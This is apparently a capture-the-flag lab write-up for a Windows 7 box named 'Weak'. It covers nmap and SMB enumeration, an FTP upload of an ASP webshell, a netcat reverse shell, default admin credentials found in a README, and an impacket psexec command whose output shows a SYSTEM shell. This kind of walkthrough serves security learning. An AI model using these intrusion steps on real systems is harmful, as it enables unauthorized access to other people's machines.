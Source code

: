 ```Cyber Security Labs: WEAK : 172.31.1.11```


Nmap scans
```
PORT      STATE SERVICE            VERSION                                                                                                                                  
21/tcp    open  ftp                Microsoft ftpd                                                                                                                           
| ftp-syst:                                                                                                                                                                 
|_  SYST: Windows_NT                                                                                                                                                        
80/tcp    open  http               Microsoft IIS httpd 7.5                                                                                                                  
| http-methods:                                                                                                                                                             
|_  Potentially risky methods: TRACE                                                                                                                                        
|_http-server-header: Microsoft-IIS/7.5                                                                                                                                     
|_http-title: IIS7                                                                                                                                                          
135/tcp   open  msrpc              Microsoft Windows RPC                                                                                                                    
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn                                                                                                            
445/tcp   open  microsoft-ds       Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)                                                               
554/tcp   open  rtsp?                                                                                                                                                       
|_rtsp-methods: ERROR: Script execution failed (use -d to debug)                                                                                                            
2869/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                                                                                  
3389/tcp  open  ssl/ms-wbt-server?                                                                                                                                          
|_ssl-date: 2020-05-19T08:47:52+00:00; 0s from scanner time.                                                                                                                
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                                                                                  
|_http-server-header: Microsoft-HTTPAPI/2.0                                                                                                                                 
|_http-title: Service Unavailable
10243/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0 
|_http-title: Not Found
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49162/tcp open  msrpc              Microsoft Windows RPC
49163/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: WEAK; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 1h45m00s, deviation: 3h30m01s, median: -1s
|_nbstat: NetBIOS name: WEAK, NetBIOS user: <unknown>, NetBIOS MAC: 02:c8:1e:c0:ba:c0 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1 
|   Computer name: Weak
|   NetBIOS computer name: WEAK\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-05-19T01:46:40-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-05-19T08:46:41
|_  start_date: 2020-05-19T08:12:05

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 257.66 seconds

```

OS detection

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-19 05:11 EDT
Nmap scan report for 172.31.1.11
Host is up (0.16s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:                       
| smb-os-discovery:                        
|   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1 
|   Computer name: Weak
|   NetBIOS computer name: WEAK\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-05-19T02:11:15-07:00

```

Share enum

```
nmap --script smb-enum-shares -p139,445 -T4 -Pn 172.31.1.11
Host script results:                       
| smb-enum-shares:                         
|   note: ERROR: Enumerating shares failed, guessing at common ones (NT_STATUS_ACCESS_DENIED)
|   account_used: <blank>
|   \\172.31.1.11\ADMIN$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: <none>
|   \\172.31.1.11\C$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: <none>
|   \\172.31.1.11\IPC$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: READ
|   \\172.31.1.11\USERS: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED                                                                                                      
|_    Anonymous access: <none>                                                        

Nmap done: 1 IP address (1 host up) scanned in 174.14 seconds
```

Had this weird FTP issue where I was shown the following error.

```
ftp> put cmdasp.asp                                                                                                                                                      
local: cmdasp.asp remote: cmdasp.asp                                                                                                                                        
501 Server cannot accept argument.                                                                                                                                          
ftp: bind: Address already in use
```
To avoid this we had to use the ftp with -p (passively)

Now, I used the ```put``` command into the ftp to add the asp webshell.

Uploaded nc.exe using smb and then executed it to get a reverse shell back.

- Box was vulnerable to Juicy Potato. Unintented way.
- Box had default creds for Admin user in a text folder in C:\Development in README.txt

The password was Password but the admin user was web admin in this case. To log in I tried winexe didnot work.

I downloaded the impacket from github and used the psexec.py from the examples folder inside it.

```zsh
python psexec.py 'web admin'@172.31.1.11
```    
```zsh
Impacket v0.9.22.dev1+20200518.92028.525fa3d0 - Copyright 2020 SecureAuth Corporation                                                  
                                                                                                                                       
Password:                                                                                                                              
[*] Requesting shares on 172.31.1.11.....                                                                                              
[-] share 'ADMIN$' is not writable.                                                                                                    
[-] share 'C$' is not writable.                                                                                                        
[*] Found writable share Development                                                                                                   
[*] Uploading file SEuWiCHt.exe                                                                                                        
[*] Opening SVCManager on 172.31.1.11.....                                                                                             
[*] Creating service Xghz on 172.31.1.11.....                                                                                          
[*] Starting service Xghz.....                                                                                                         
[!] Press help for extra shell commands                                                                                                
Microsoft Windows [Version 6.1.7601]                                                                                                   
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.                                                                        
                                                                                                                                       
C:\Windows\system32>whoami                                         
nt authority\system
```